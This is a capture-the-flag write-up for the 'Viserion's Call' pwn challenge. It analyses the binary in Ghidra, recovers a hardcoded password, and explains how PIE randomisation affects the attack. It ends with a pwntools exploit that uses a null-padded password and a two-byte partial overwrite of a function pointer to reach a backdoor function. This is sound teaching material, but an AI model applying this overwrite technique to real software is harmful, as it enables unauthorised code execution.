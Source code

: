 # Writeup for the Viserion's Call Writeup 

## Description of the Challenge:-

<b> Give me the right password!</b>

<b>Note: The server is running on 20.04 </b>



#### Files provided for the challenge are the vulnerable binary , libc.so.6 and fake flag.txt file

### Checksec:-



| Mitigation   | Stance       |
| ------------ | ------------ |
| RELRO        | FULL RELRO   |
| Stack Canary | Canary Found |
| NX           | NX Enabled   |
| PIE          | PIE Enabled  |



### This Writeup is gonna be super short because I kinda solved it in a unintended easy way



![start_meme](https://memegenerator.net/img/instances/65717385/okay-then-lets-begin.jpg)

Funny backstory is that this challenge was rated hard 

#### First Let's analyse the behaviour of the Program and Plan our Exploit:-

1) First Let's do a test run.. It asks for a name and password..And then check the password with something and print Invalid password

   ![asd](https://raw.githubusercontent.com/vital-information-resource-under-siege/PWN-Challenges/main/inctf-pro-finals/viserions_call/writeup-images/first.png)





2. Let's see it in a ghidra...First of all,The user defined functions present in the binary.

![user defined functions](https://raw.githubusercontent.com/vital-information-resource-under-siege/PWN-Challenges/main/inctf-pro-finals/viserions_call/writeup-images/second.png)



3. Most of the functions in the above images are Compiler generated functions.

4. The user defined functions in the binary are `main,initialize,password_check,hidden_func,password_view and  backdoor`

5. After viewing the decompiled code,The initialize function was obvious setting up the alarm for the timeout for the program and setting up stream buffering .

6. Let's look at the main function decompiled code.

   ![third](https://raw.githubusercontent.com/vital-information-resource-under-siege/PWN-Challenges/main/inctf-pro-finals/viserions_call/writeup-images/third.png)

7. The first image that takes the name as input is safe 20 bytes of string using read syscall and not even a single byte overflow here.

8. But the problem occurs at the the second input where the size of the variable is 20 and but read accepts 80 characters. Simply by reading the decompiled code gave us the vulnerability.

   ![meme2](https://i.redd.it/agw69j6z2c131.jpg)

9. But here comes the tricky part ..

   #### First of all we have to bypass the stack canary without any format string bugs,then there is PIE enabled and finally the return address of the main function is libc_start_main+243 so we can't partial write to leak puts something like that.. Just after our big breakthrough we just stumbled into something that is super hard to bypass

   

   ![meme three](https://memegenerator.net/img/instances/82098423/what-if-i-told-you-there-is-no-way-out.jpg) 

10. But let me remind you guys..I did solve this challenge super easy right.. Maybe I found something that allow me bypass all the mitigations right. 

11. When I was skimming through the decompiled code,I saw something suspicious on the main function code at line 17 which holds the address of password view function which is present in stack and gets called at line 27.

    ![one more meme](https://i.imgflip.com/61y5bv.jpg)

    12. But function pointer may also be present before the input right which may render our overflow vulnerability useless . Let's check that..

        ![ss4](https://raw.githubusercontent.com/vital-information-resource-under-siege/PWN-Challenges/main/inctf-pro-finals/viserions_call/writeup-images/fourth.png)

Here we can see that our our name input is ajay. And our next input which is password is 8 B's above the function password which reads upto 80 characters can easily tamper the function pointer. Still we have a PIE there partial overwrite to what address tho.

14. Interestingly, When viewing through different function .. I remembered a function named backdoor. The naming of the function made me suspicious.

    So I went to see what this function does..After seeing the function.. My face totally went like this gif.

    ![mememe](https://c.tenor.com/8mnrYcikj3sAAAAC/meme-troll.gif)

15. Lemme post the decompiled code of that function here.

    ```c
    void backdoor(void)
    
    {
      FILE *__stream;
      long in_FS_OFFSET;
      char local_48 [56];
      undefined local_10;
      
      local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
      __stream = fopen("flag.txt","rb");
      if (__stream != (FILE *)0x0) {
        fgets(local_48,0x3c,__stream);
        fclose(__stream);
      }
      puts(local_48);
                        /* WARNING: Subroutine does not return */
      exit(0);
    }
    ```

    This function holds the flag which is basically the win function for this program. That means we just have to perform a local buffer overflow.

16. But the PIE offset for the backdoor function is 0x1015df and for the password_view function the offset is 0x1014a2 . 

    The input is read using read so no terminators are placed after input. 

    ## PIE works similar to ASLR which places the binary base in random regions for every process .But the first nibble and the last three nibbles will always be same while in ASLR the first two nibbles and the last three nibbles will be same.

    Let me write a test C program to print out the address to show how PIE and ASLR works.

    ```c
    #include<stdio.h>
    #include<stdlib.h>
    int main()
    {
    	printf("The address of main function is %p\n",main);
    	printf("The address of system function is %p\n",system);
    }
    ```

    ![output](https://raw.githubusercontent.com/vital-information-resource-under-siege/PWN-Challenges/main/inctf-pro-finals/viserions_call/writeup-images/fifth.png)

    Here we can see that for every execution the address of main function always changes but the last 3 nibbles and fist nibble . While the system function address changes by first two nibbles and the last three nibbles.

    So our partial two byte write still will not yield us a one shot solution but a 1/16 byte bruteforce will work .. 

17. But there is a problem in password check that if we don't give correct password the program exits which will render our overflow vulnerability useless.

18. Here is the code that exits if the check is failed in password check function.

    ```c
      local_20 = *(long *)(in_FS_OFFSET + 0x28);
      local_38 = 0x705f337275633373;
      local_30 = 0x64723077737334;
      local_28 = 0;
      local_3c = 0;
      while( true ) {
        sVar1 = strlen((char *)&local_38);
        if (sVar1 <= (ulong)(long)local_3c) break;
        if ((&stack0x0000001c)[local_3c] != *(char *)((long)&local_38 + (long)local_3c)) {
          puts("Invalid Password");
                        /* WARNING: Subroutine does not return */
          exit(0);
        }
        local_3c = local_3c + 1;
      }
      puts("Correct Password!");
    ```

    

    19. But it is actually easy, when u convert the hex to string the password is found out to be `s3cur3_p4ssw0rd`.

    20. But think about it,it checks for the string `s3cur3_p4ssw0rd` but our password also needs to have the partial two byte write payload.

    21. But strcmp only checks until null byte tho. While read does not have any null byte terminator like strcpy.

    22. The Exploit source code for the challenge is:-

        ```python
        #!/usr/bin/env python3
        
        
        
        from pwn import *
        from time import sleep
        
        e = ELF("./viserions_call")
        #r = process("./viserions_call")
        r = remote("gc1.eng.run",32680)
        r.sendline(b"A" * 10)
        sleep(0.5)
        r.send(b"s3cur3_p4ssw0rd\x00\x00\x00\x00\x00" + p16(0x15df))
        r.interactive()
        
        ```

        This Exploit works in a possibility  of 1/16.

        ## Me after completing this challenge in a super easy way with all mitigations present with difficulty stated as hard

        ![final meme](https://i.kym-cdn.com/photos/images/newsfeed/002/008/781/65d.png)

### Final note: Author said the intended solution was to use vsyscalls and finally use a partial one byte overwrite to solve this challenge.

